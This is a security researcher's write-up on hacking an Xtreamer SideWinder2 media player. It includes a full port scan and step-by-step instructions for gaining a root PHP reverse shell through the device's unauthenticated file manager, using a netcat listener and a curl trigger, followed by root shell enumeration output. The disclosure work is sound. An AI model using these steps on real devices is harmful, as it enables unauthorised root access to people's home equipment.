

# Hardware hacking: Xtreamer SideWinder2 (Network Media Player)
[EN] Hardware hacking: Xtreamer SideWinder2 (Network Media Player)

## Content

  * [TCP enumeration scan](#tcp-enumeration-scan)
  * [PHP reverse shell](#php-reverse-shell)
  * [System enumeration](#system-enumeration)
  * [Security considerations](#security-considerations)
  * [Contact](#contact)

## TCP enumeration scan

Performed with `nmap -v -sC -sV -p- -oA nmap/full-tcp-scan 10.0.0.33` command:

```
Nmap scan report for 10.0.0.33
Host is up (0.0012s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE          VERSION
21/tcp    open  ftp              Stupid-FTPd
|_ftp-anon: got code 531 "Anonymous access denied.".
80/tcp    open  http             lighttpd
139/tcp   open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn      Samba smbd 3.0.23c (workgroup: WORKGROUP)
548/tcp   open  afp?
|_afp-serverinfo: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest, LPDString: 
|     HTTP/1.1 501 Not Implemented
|     Date: Mon Dec 26 20:15:49 2022
|     Content-Length:0
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 501 Not Implemented
|     Date: Mon Dec 26 20:15:01 2022
|     Content-Length:0
|   SIPOptions: 
|     HTTP/1.1 501 Not Implemented
|     Date: Mon Dec 26 20:15:59 2022
|_    Content-Length:0
1080/tcp  open  socks?
1337/tcp  open  telnet           GeeXboX uShare telnetd 1.1a
7171/tcp  open  drm-production?
8082/tcp  open  blackice-alerts?
49152/tcp open  upnp             Portable SDK for UPnP devices 1.6.6 (Linux 2.6.12.6-VENUS; UPnP 1.0)
55321/tcp open  upnp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 File Not Found
|     Server: POSIX, UPnP/1.0, Intel MicroStack/1.0.2718
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 200 OK
|     CONTENT-TYPE: text/xml; charset="utf-8"
|     Server: POSIX, UPnP/1.0, Intel MicroStack/1.0.2718
|     <?xml version="1.0" encoding="utf-8"?>
|     <root xmlns="urn:schemas-upnp-org:device-1-0">
|     <specVersion>
|     <major>1</major>
|     <minor>0</minor>
|     </specVersion>
|     <device xmlns:pnpx="http://schemas.microsoft.com/windows/pnpx/2005/11"
|     xmlns:df="http://schemas.microsoft.com/windows/2008/09/devicefoundation">
|     <pnpx:X_hardwareId>PnPX_REALTEK_MEDIARENDERER_HWID</pnpx:X_hardwareId>
|     <pnpx:X_compatibleId>MS_DigitalMediaDeviceClass_DMR_V001</pnpx:X_compatibleId>
|     <pnpx:X_deviceCategory>Multimedia.DMR</pnpx:X_deviceCategory>
|     <df:X_deviceCategory>Multimedia.DMR</df:X_deviceCategory>
|     <df:X_modelId>ABCC3F95-1DE6-4e99-9526-3F74F5C5D195</df:X_modelId>
|     <pnpx:X_singularDescription>
|     Digital media renderer
|     </pnpx:X_singularDescription>
|     <deviceType>urn:schemas-upnp-org:device:MediaRen
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Server: POSIX, UPnP/1.0, Intel MicroStack/1.0.2718
|     Content-Length: 0
|   SIPOptions: 
|_    HTTP/1.1 400 Bad Request (Missing Host Field)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port548-TCP:V=7.92%I=7%D=12/26%Time=63AA00C8%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,51,"HTTP/1\.1\x20501\x20Not\x20Implemented\r\nDate:\x20Mon\x
SF:20Dec\x2026\x2020:15:01\x202022\nContent-Length:0\r\n\r\n")%r(GetReques
SF:t,51,"HTTP/1\.1\x20501\x20Not\x20Implemented\r\nDate:\x20Mon\x20Dec\x20
SF:26\x2020:15:01\x202022\nContent-Length:0\r\n\r\n")%r(HTTPOptions,51,"HT
SF:TP/1\.1\x20501\x20Not\x20Implemented\r\nDate:\x20Mon\x20Dec\x2026\x2020
SF::15:01\x202022\nContent-Length:0\r\n\r\n")%r(RTSPRequest,51,"HTTP/1\.1\
SF:x20501\x20Not\x20Implemented\r\nDate:\x20Mon\x20Dec\x2026\x2020:15:01\x
SF:202022\nContent-Length:0\r\n\r\n")%r(FourOhFourRequest,51,"HTTP/1\.1\x2
SF:0501\x20Not\x20Implemented\r\nDate:\x20Mon\x20Dec\x2026\x2020:15:49\x20
SF:2022\nContent-Length:0\r\n\r\n")%r(LPDString,51,"HTTP/1\.1\x20501\x20No
SF:t\x20Implemented\r\nDate:\x20Mon\x20Dec\x2026\x2020:15:49\x202022\nCont
SF:ent-Length:0\r\n\r\n")%r(SIPOptions,51,"HTTP/1\.1\x20501\x20Not\x20Impl
SF:emented\r\nDate:\x20Mon\x20Dec\x2026\x2020:15:59\x202022\nContent-Lengt
SF:h:0\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port55321-TCP:V=7.92%I=7%D=12/26%Time=63AA00BA%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,9CD,"HTTP/1\.1\x20200\x20OK\r\nCONTENT-TYPE:\x20\x20text/xml
SF:;\x20charset=\"utf-8\"\r\nServer:\x20POSIX,\x20UPnP/1\.0,\x20Intel\x20M
SF:icroStack/1\.0\.2718\r\n\r\n<\?xml\x20version=\"1\.0\"\x20encoding=\"ut
SF:f-8\"\?>\n<root\x20xmlns=\"urn:schemas-upnp-org:device-1-0\">\n\t<specV
SF:ersion>\n\t\t<major>1</major>\n\t\t<minor>0</minor>\n\t</specVersion>\n
SF:\t<device\x20xmlns:pnpx=\"http://schemas\.microsoft\.com/windows/pnpx/2
SF:005/11\"\n\txmlns:df=\"http://schemas\.microsoft\.com/windows/2008/09/d
SF:evicefoundation\">\n\t\t<pnpx:X_hardwareId>PnPX_REALTEK_MEDIARENDERER_H
SF:WID</pnpx:X_hardwareId>\n\t\t<pnpx:X_compatibleId>MS_DigitalMediaDevice
SF:Class_DMR_V001</pnpx:X_compatibleId>\n\t\t<pnpx:X_deviceCategory>Multim
SF:edia\.DMR</pnpx:X_deviceCategory>\n\t\t<df:X_deviceCategory>Multimedia\
SF:.DMR</df:X_deviceCategory>\n\t\t<df:X_modelId>ABCC3F95-1DE6-4e99-9526-3
SF:F74F5C5D195</df:X_modelId>\n\t\t<pnpx:X_singularDescription>\n\t\t\tDig
SF:ital\x20media\x20renderer\n\t\t</pnpx:X_singularDescription>\n\t\t<devi
SF:ceType>urn:schemas-upnp-org:device:MediaRen")%r(HTTPOptions,63,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nServer:\x20POSIX,\x20UPnP/1\.0,\x20Intel
SF:\x20MicroStack/1\.0\.2718\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,63,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nServer:\x20POSIX,\x20UPnP/
SF:1\.0,\x20Intel\x20MicroStack/1\.0\.2718\r\nContent-Length:\x200\r\n\r\n
SF:")%r(FourOhFourRequest,66,"HTTP/1\.1\x20404\x20File\x20Not\x20Found\r\n
SF:Server:\x20POSIX,\x20UPnP/1\.0,\x20Intel\x20MicroStack/1\.0\.2718\r\nCo
SF:ntent-Length:\x200\r\n\r\n")%r(SIPOptions,31,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\x20\(Missing\x20Host\x20Field\)\r\n\r\n");
MAC Address: 00:1C:85:50:0B:5B (Eunicorn)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel:2.6.12.6-venus

Host script results:
|_clock-skew: mean: -3s, deviation: 0s, median: -4s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: MYXTREAMER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   MYXTREAMER<00>       Flags: <unique><active>
|   MYXTREAMER<03>       Flags: <unique><active>
|   MYXTREAMER<20>       Flags: <unique><active>
|   WORKGROUP<1c>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.23c)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-26T20:17:17+00:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 26 21:18:42 2022 -- 1 IP address (1 host up) scanned in 245.54 seconds
```

## PHP reverse shell

I found possibility of PHP reverse shell via web control server with unsecure file manager feature. This vulnerability affect version 3.0.6 from 2010. 

Web server is powered by very old version of PHP:

```
curl -I http://10.0.0.33

HTTP/1.1 200 OK
Connection: close
X-Powered-By: PHP/5.3.2
Content-Type: text/html; charset=utf-8
Set-Cookie: PHPSESSID=c507f670ddec676168ade09dacdc0ddb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Date: Mon, 26 Dec 2022 19:48:56 GMT
Server: WMI Http Server
```

Web control server has `X-Powered-By: PHP/5.3.2` header in response. So, it was obvious that this is really promising attack vector.

**Getting root shell:**

1. Download PHP reverse shell file from there: <https://pentestmonkey.net/tools/web-shells/php-reverse-shell>
2. Update `$ip` variable in `php-reverse-shell.php` file with IP address of your computer.
3. File with reverse shell must be uploaded to location accessible for Xtreamer. It can be USB flash disk (tested) or remote share via Samba.
4. Start listener `nc -lvnp 1234`.

5. Open file via _File manager_ or excute curl GET request (example with USB flash disk):
```
curl -v -i "http://10.0.0.33/media/sdb1/shell.php"
```
and keep this connection open. You should see spawned **root** shell:

```
listening on [any] 1234 ...
connect to [10.0.0.34] from (UNKNOWN) [10.0.0.33] 35171
Linux myxtreamer 2.6.12.6-VENUS #67 Mon Aug 8 15:27:35 KST 2011 mips unknown
uid=0(root) gid=0(root)
sh: w: not found


BusyBox v1.1.3 (2011.08.08-06:28+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/ # /bin/sh: can't access tty; job control turned off
```

**PoC**

[](images/reverse_shell_big.jpg)


## System enumeration

```
uname -a
Linux myxtreamer 2.6.12.6-VENUS #67 Mon Aug 8 15:27:35 KST 2011 mips unknown
```

```
netstat -anut
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:49152           0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:7171            0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:548             0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:8082            0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:1080            0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:55321           0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      
tcp        0      0 10.0.0.33:1337          10.0.0.34:37798         ESTABLISHED 
tcp        0      0 10.0.0.33:80            10.0.0.34:34244         ESTABLISHED 
tcp        6      0 10.0.0.33:7171          10.0.0.34:35820         CLOSE_WAIT  
tcp        0      0 10.0.0.33:80            10.0.0.34:51824         ESTABLISHED 
tcp        0      0 10.0.0.33:35171         10.0.0.34:1234          ESTABLISHED 
udp        0      0 0.0.0.0:32769           0.0.0.0:*                           
udp        0      0 127.0.0.1:32770         0.0.0.0:*                           
udp        0      0 0.0.0.0:32772           0.0.0.0:*                           
udp        0      0 10.0.0.33:137           0.0.0.0:*                           
udp        0      0 0.0.0.0:137             0.0.0.0:*                           
udp        0      0 10.0.0.33:138           0.0.0.0:*                           
udp        0      0 0.0.0.0:138             0.0.0.0:*                           
udp        0      0 0.0.0.0:4661            0.0.0.0:*                           
udp        0      0 10.0.0.33:50257         0.0.0.0:*                           
udp        0      0 0.0.0.0:3027            0.0.0.0:*                           
udp        0      0 0.0.0.0:58458           0.0.0.0:*                           
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           
udp        0      0 0.0.0.0:1900            0.0.0.0:*                           
udp        0      0 0.0.0.0:1900            0.0.0.0:*                           
udp   104104      0 0.0.0.0:1900            0.0.0.0:* 
```
```
ps -aux
  PID  Uid     VmSize Stat Command
    1 root        404 S   init       
    2 root            SWN [ksoftirqd/0]
    3 root            SW< [events/0]
    4 root            SW< [khelper]
    5 root            SW< [kthread]
    6 root            SW< [kblockd/0]
    7 root            SW  [khubd]
   10 root            SW  [pdflush]
   11 root            SW  [pdflush]
    8 root            SW  [rpc-1]
    9 root            SW  [rpc-3]
   12 root            SW  [kswapd0]
   13 root            SW< [aio/0]
   14 root            SW< [cifsoplockd]
   15 root            SW< [cifsdnotifyd]
   17 root            SW  [mtdblockd]
   16 root            SWN [eth0]
   28 root        408 S   init       
   29 root        408 S   init       
   31 root        408 S   init       
   32 root        408 S   init       
  148 root         92 S   /bin/Inspector 
  164 root        372 S   inetd 
  168 root            SW< [sata_eh/0]
  177 root            SW  [scsi_eh_0]
  195 root        600 S   ./RootApp DvdPlayer 
  197 root        600 S   ./RootApp DvdPlayer 
  199 root      30188 S < DvdPlayer 
  200 root        600 S   ./RootApp DvdPlayer 
  201 root      30188 S   DvdPlayer 
  202 root      30188 S N DvdPlayer 
  203 root      30188 S N DvdPlayer 
  210 root      30188 S   DvdPlayer 
  211 root      30188 S   DvdPlayer 
  219 root      30188 S   DvdPlayer 
  220 root      30188 S   DvdPlayer 
  221 root      30188 S   DvdPlayer 
  222 root      30188 S   DvdPlayer 
  223 root      30188 S   DvdPlayer 
  224 root      30188 S   DvdPlayer 
  226 root      30188 S   DvdPlayer 
  227 root      30188 S   DvdPlayer 
  228 root      30188 S   DvdPlayer 
  230 root      30188 S   DvdPlayer 
  235 root      30188 S   DvdPlayer 
  236 root      30188 R   DvdPlayer 
  237 root      30188 S   DvdPlayer 
  238 root      30188 S   DvdPlayer 
  239 root      30188 S   DvdPlayer 
  240 root      30188 S N DvdPlayer 
  243 root      30188 S   DvdPlayer 
  244 root      30188 S   DvdPlayer 
  252 root      30188 S   DvdPlayer 
  253 root      30188 S   DvdPlayer 
  254 root      30188 S   DvdPlayer 
  257 root      30188 S   DvdPlayer 
  258 root      30188 S   DvdPlayer 
  259 root      30188 S   DvdPlayer 
  306 root            SW  [scsi_eh_1]
  393 root       1196 S N IMS_Modules/gtalk/gtalk 
  405 root        408 S   /sbin/udhcpc -p /var/lock/udhcpc_eth0.pid -t 15 -b -s
  411 root       1196 S   IMS_Modules/gtalk/gtalk 
  412 root       1196 S   IMS_Modules/gtalk/gtalk 
  430 root      30188 S   DvdPlayer 
  492 root            SW  [RTKTHREAD]
  506 root        952 S N /sbin/www/lighttpd -f /sbin/www/lighttpd.conf 
  507 root       4404 S N /sbin/www/php 
  520 root        784 S   ./wpa_supplicant -P/var/lock/wpa_supplicant.pid -g/va
  560 root        372 S N /sbin/www/stupid-ftpd -f /usr/local/etc/stupid-ftpd.c
  604 root      30188 S   DvdPlayer 
  615 root      30188 S N DvdPlayer 
  618 root      30188 S N DvdPlayer 
  619 root      30188 S N DvdPlayer 
  620 root      30188 S N DvdPlayer 
  622 root      30188 S N DvdPlayer 
  624 root      30188 S N DvdPlayer 
  625 root      30188 S N DvdPlayer 
  654 root      30188 S   DvdPlayer 
  672 root       1580 S N /usr/local/daemon/samba/sbin/smbd -D 
  691 root       1008 S N /usr/local/daemon/samba/sbin/nmbd -D 
  712 root      30188 S   DvdPlayer 
  717 root       1560 S N /usr/local/daemon/samba/sbin/smbd -D 
  724 root       5492 S N /sbin/www/php 
  729 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  730 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  740 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  741 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  743 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  747 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  748 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  754 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  755 root        764 S N /sbin/www/ushare -f /sbin/www/ushare.conf -D 
  760 root        512 S N /sbin/mDNSResponderPosix -n myxtreamer -t _airplay._t
 1457 root            SW  [scsi_eh_3]
 1458 root            SW  [usb-storage]
 1825 root        444 S N sh -c uname -a; w; id; /bin/sh -i 
 1828 root        516 S N /bin/sh -i 
 1906 root        384 R N ps -aux 
 ```
 ```
 cat /etc/passwd
root::0:0:root::/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:0:0:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
nobody::99:99:nobody:/:/bin/sh
default::1000:1000:Default non-root user:/:/bin/sh
```

## Security considerations

1. There is no authentication set by default. However, even if the credentials are set, it is still possible to access the files by knowing the full URL.

2. Vendor apparently shutdown business, so downloading new firmware is not possible.

## Contact

* <https://twitter.com/o_dolezal>
